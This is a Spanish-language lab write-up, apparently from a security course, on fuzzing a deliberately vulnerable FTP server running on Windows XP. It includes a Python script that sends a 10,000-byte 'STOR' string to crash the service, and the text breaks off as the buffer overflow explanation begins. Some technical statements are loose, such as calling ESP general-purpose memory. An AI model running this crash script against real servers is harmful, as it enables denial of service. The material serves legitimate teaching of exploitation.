

# [](#header-1)Maquina Timelapse

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#desarrollo">Desarrollo</a>
  - <a href="#Especificaciones_del_laboratorio">Especificaciones del laboratorio</a>
  - <a href="#fuzzing">Fuzzing</a>
  - <a href="#gain_access">Gain Access</a>
  - <a href="#privilege_scalation">Escalamiento de privilegios</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
Las aplicaciones sin pruebas de seguridad tienden a tener vulnerabilidades en su código, podría
estar haciendo llamadas a módulos o librerías inseguras. En este entregable se pondrá en práctica lo
aprendido en el curso de Seguridad para aplicaciones móviles, y se utilizara una aplicación desde la
página exploit-db con vulnerabilidad para fuzzing y buffer-overflow.
Cuando existen estas vulnerabilidades prácticamente uno puede tomar control total del dispositivo
que está ejecutando el programa.
El entorno donde trabajaremos es virtual, el dispositivo tiene una arquitectura x86 y un sistema
operativo Windows XP.

## [](#header-2)<a id="desarrollo">Desarrollo</a>
### [](#header-3)<a id="Especificaciones_del_laboratorio">Especificaciones del laboratorio</a>
Se utilizará una máquina virtual con sistema operativo Windows XP de 32 bits y una maquina Kali Linux enlazadas por red y permitiendo el tráfico de datos entre estas.

Para el análisis del software utilizado en la maquina Windows xp, se utilizará la aplicación immunity debbuger, que es un desensamblador de programas y con esto podemos estar monitoreando la ejecución del sistema

-Immunity debugger


-Programa a utilizar FTPserver, obtenida del link https://www.exploit-db.com/exploits/46763

### [](#header-3)<a id="fuzzing">Fuzzing</a>
El siguiente programa escrito en python, tiene bloques importantes, el que define los caracteres o cadena con la que se hará el testing, el que realiza el envió de la información.

La cadena en este caso será una A multiplicada por 10mil, al ser ejecutado mandará al servidor FTP una cadena de 10mil bytes despues de pasar el usuario y contraseña.

```py
#!/usr/bin/python2

import socket

cadena = 'A' * 10000

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conexion = s.connect(('192.168.100.252',21))
s.recv(1024)
s.send('USER ftp\r\n') #USUARIO
s.recv(1024)
s.send('PASS ftp\r\n') #PASS
s.recv(1024)
s.send('STOR' + cadena + '\r\n')
s.recv(1024)
s.send ('QUIT\r\n')
s.close()
```

Al ejecutar este programa, podemos verificar que se están almacenando As en la memoria de la máquina, cuando son demasiadas podremos interrumpir el programa y prácticamente hacer un ataque de denegación del servicio, pero aquí no queda todo, se puede seguir estudiando el programa para seguir ahora con un ataque de buffer overflow. 



En la imagen se aprecia que estamos escribiendo en la memoria de propósito general ESP, utilizando solamente mil bytes para la prueba y con esto podemos proceder al buffer overflow.

### [](#header-3)<a id="fuzzing">Buffer overflow</a>
¿Como funciona un buffer overflow? En este articulo se menciona algo importante que es la arquitectura de las computadoras o el tipo de procesador que tienen estas, al ser diferentes las computadoras, la ejecución de un programa tiene llamadas diferentes a las librerías del mismo procesador, entonces para ejecutar un programa con éxito se deberá conocer a detalle la arquitectura especifica de esta. Recientemente apple saco su computadora que contiene un procesador que esta desarrollado por ellos y es mas complicado el explotar sus vulnerabilidades, al ser un dispositivo que no esta al alcance de muchas personas pues no existen personas dedicadas o enfocadas a beneficiarse por este medio.